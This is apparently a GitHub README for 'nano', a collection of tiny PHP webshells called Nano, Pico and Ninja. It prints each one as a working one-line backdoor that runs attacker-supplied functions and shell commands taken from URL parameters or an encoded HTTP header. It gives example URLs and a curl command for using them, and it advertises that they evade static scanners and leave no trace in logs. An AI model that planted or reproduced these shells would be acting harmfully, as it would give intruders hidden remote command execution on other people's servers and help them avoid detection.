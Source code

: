 # nano
Nano is a family of PHP webshells which are code golfed to be extremely stealthy and efficient.\
Put it on watch maybe, I will continue to upload more webshells in here.

**Note:** You may need to tweak some parts of the code if it doesn't work out for your.\
For example, if short tags are disabled, you will need to replace <? with <?php.

### Nano
```php
<?$x=$_GET;@$x[p]=='_'?@$x[f]($x[c]):1;
```
#### Features
- 39 bytes in size
- Can't be detected by static code scanners
- Supports authentication
- No warnings on this fork version!

#### Usage
`http://example.com/nano.php?f=function&c=command&p=password`

`f` is for function\
`c` is for command\
`p` is for password

For example, the code below will execute the `ls` command:

`http://example.com/nano.php?f=system&c=ls&p=password`

### Pico
```php
<?$x=$_GET;@$x[f]($x[c]);
```
#### Features
- 25 bytes in size
- Can't be detected by static code scanners
- No warnings on server logs!

#### Usage
`http://example.com/nano.php?f=function&c=command`

`f` is for function\
`c` is for command

For example, the code below will execute the `ls` command:

`http://example.com/nano.php?f=system&c=ls`

### Ninja
```php
<?$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
```
#### Features
- 93 bytes in size
- Fully Undetectable

#### Usage
This one a bit complex.\
Lets say you want to run `system(ls)` so write it as `system~ls` and then base64 encode it i.e. `c3lzdGVtKGxzKQ==`\
Now add any **1** character at the start of it. Let say 'x' so it will be `xc3lzdGVtKGxzKQ==`\
Now open your terminal and type the following command\
`curl -H 'x: xc3lzdGVtKGxzKQ==' http://example.com/backdoored.php`\
Too much work? You can use the [handler](https://github.com/UltimateHackers/nano/blob/master/handler.py) instead.

![handler](https://i.imgur.com/hkAHGwH.png)

#### Everything Else
This is my first php thingy so if there's way to do what I did in a better way please let me know or open a pull request.\
The nano project is licensed under **MIT license** which basically means you have to give me credit if you want to redistribute or modify it.
